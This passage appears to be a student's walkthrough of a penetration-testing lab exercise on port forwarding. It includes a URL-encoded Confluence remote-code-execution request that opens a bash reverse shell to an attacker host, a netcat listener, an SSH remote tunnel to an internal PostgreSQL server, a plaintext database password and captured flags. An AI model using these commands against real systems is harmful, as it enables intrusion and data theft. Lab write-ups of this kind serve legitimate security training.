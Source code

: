 ```bash
	[proxychains] config file found: /etc/proxychains4.conf
	[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
	[proxychains] DLL init: proxychains-ng 4.17
	Connecting to 172.16.233.217:4872
	[proxychains] Strict chain  ...  192.168.233.63:9999  ...  172.16.233.217:4872  ...  OK
	Flag: "OS{82d1d7a815dc8b779b63906acfc57ebc}"
```


## Remote

1. Start VM Group 1 and follow the example from this section. What's the value of the flag found in the **hr_backup** database **payroll** table?

- Use CVE to gain remote shell on CONFLUENCE01 and upgrade to TTY
```bash
# Tab 1 - Listener
nc -nlvp 1270

# Tab 2
curl -v http://192.168.193.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.196/1270%200%3E%261%27%29.start%28%29%22%29%7D/

# Tab 1 - CONFLUENCE01
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

- Set up Remote Port Forward
```bash
# CONFLUENCE01
ssh -N -R 127.0.0.1:2345:10.4.193.215:5432 kali@192.168.118.4
	Could not create directory '/home/confluence/.ssh'.
	The authenticity of host '192.168.45.196 (192.168.45.196)' can''t be established.
	ECDSA key fingerprint is SHA256:Z6AWTPQLtEMVjOkkRmrchK5U1cx9L6Dek+5Gx8+icic.
	Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
	yes
	Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
	kali@192.168.45.196''s password:
```

- Log into PGDATABASE01 through Remote SSH Tunnel
```bash
# kali
psql -h 127.0.0.1 -p 2345 -U postgres
	Password for user postgres: (D@t4basePassw0rd!)
	psql (16.2 (Debian 16.2-1), server 12.12 (Ubuntu 12.12-0ubuntu0.20.04.1))
	SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, compression: off)
	Type "help" for help.

postgres=# \l
	                                                        List of databases
	    Name    |  Owner   | Encoding | Locale Provider |   Collate   |    Ctype    | ICU Locale | ICU Rules |   Access privileges
	------------+----------+----------+-----------------+-------------+-------------+------------+-----------+-----------------------
	 confluence | postgres | UTF8     | libc            | en_US.UTF-8 | en_US.UTF-8 |            |           |
	 hr_backup  | postgres | UTF8     | libc            | en_US.UTF-8 | en_US.UTF-8 |            |           |
	 postgres   | postgres | UTF8     | libc            | en_US.UTF-8 | en_US.UTF-8 |            |           |
	 template0  | postgres | UTF8     | libc            | en_US.UTF-8 | en_US.UTF-8 |            |           | =c/postgres          +
	            |          |          |                 |             |             |            |           | postgres=CTc/postgres
```